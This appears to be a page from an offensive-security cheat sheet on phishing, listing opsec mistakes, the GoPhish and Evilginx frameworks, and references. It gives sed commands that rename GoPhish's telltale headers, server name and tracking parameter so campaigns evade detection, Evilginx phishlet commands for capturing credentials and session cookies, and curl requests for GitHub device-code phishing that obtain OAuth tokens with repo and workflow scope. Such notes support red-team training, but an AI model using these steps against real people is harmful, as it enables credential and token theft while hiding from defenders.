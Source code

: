 # Phishing

> Phishing is a cybersecurity attack where malicious actors impersonate legitimate organizations (like banks, social media platforms, or email providers) to trick people into revealing sensitive information such as passwords, credit card numbers, or personal data.

## Opsec Fails

* **Reusing IPs/Domains**: Using the same IP address or domain across multiple campaigns or malware families.
* **No Domain Privacy**: WHOIS records exposing registrant info (name, email, phone).
* **Same Registrant Email**: Reusing the same email address across domains.
* **Unrotated SSL Certificates**: Self-signed or identical certificates reused across phishing sites.

## GoPhish

* [gophish/gophish](https://github.com/gophish/gophish) - Open-Source Phishing Toolkit
* [kgretzky/gophish/](https://github.com/kgretzky/gophish/) - Gophish integration with Evilginx 3.3
* [puzzlepeaches/sneaky_gophish](https://github.com/puzzlepeaches/sneaky_gophish) - Hiding GoPhish from the boys in blue

```ps1
git clone https://github.com/gophish/gophish.git
go build
```

### IOC

* `X-Gophish-Contact` and `X-Gophish-Signature`

    ```ps1
    find . -type f -exec sed -i.bak 's/X-Gophish-Contact/X-Contact/g' {} +
    sed -i 's/X-Gophish-Contact/X-Contact/g' models/email_request_test.go
    sed -i 's/X-Gophish-Contact/X-Contact/g' models/maillog.go
    sed -i 's/X-Gophish-Contact/X-Contact/g' models/maillog_test.go
    sed -i 's/X-Gophish-Contact/X-Contact/g' models/email_request.go

    find . -type f -exec sed -i.bak 's/X-Gophish-Signature/X-Signature/g' {} +
    sed -i 's/X-Gophish-Signature/X-Signature/g' webhook/webhook.go
    ```

* Default server name

    ```ps1
    sed -i 's/const ServerName = "gophish"/const ServerName = "IGNORE"/' config/config.go
    ```

* Default `rid` parameter

    ```ps1
    sed -i 's/const RecipientParameter = "rid"/const RecipientParameter = "keyname"/g' models/campaign.go
    ```

## Evilginx

* [kgretzky/evilginx2](https://github.com/kgretzky/evilginx2) - Standalone man-in-the-middle attack framework used for phishing login credentials along with session cookies, allowing for the bypass of 2-factor authentication
* [evilginxpro](https://evilginx.com/) - The phishing framework for red teams

```ps1
# List Available Phishlets
phishlets

# Enable a Phishlet
phishlets enable <phishlet_name>

# Disable a Phishlet
phishlets disable <phishlet_name>
```

## Device Code Phishing

* Github

    ```ps1
    curl -X POST https://github.com/login/device/code \
    -H "Accept: application/json" \
    -d "client_id=01ab8ac9400c4e429b23&scope=user+repo+workflow"

    curl -X POST https://github.com/login/oauth/access_token \
    -H "Accept: application/json" \
    -d "client_id=01ab8ac9400c4e429b23&device_code=be9<code_from_earlier>&&grant_type=urn%3Aietf%3Aparams%3Aoauth%3Agrant-type%3Adevice_code" -k | jq
    ```

## References

* [A Smooth Sea Never Made a Skilled Phisherman - Kuba Gretzky - 8 july 2024](https://youtu.be/Nh99d3YnpI4)
* [Introducing: GitHub Device Code Phishing - John Stawinski, Mason Davis, Matt Jackoski - June 12, 2025](https://www.praetorian.com/blog/introducing-github-device-code-phishing/)
* [Never had a bad day phishing. How to set up GoPhish to evade security controls - Nicholas Anastasi - Jun 30, 2021](https://www.sprocketsecurity.com/blog/never-had-a-bad-day-phishing-how-to-set-up-gophish-to-evade-security-controls)
* [Unraveling and Countering Adversary-in-the-Middle Phishing Attacks - Pawel Partyka - 8 july 2024](https://youtu.be/-W-LxcbUxI4)
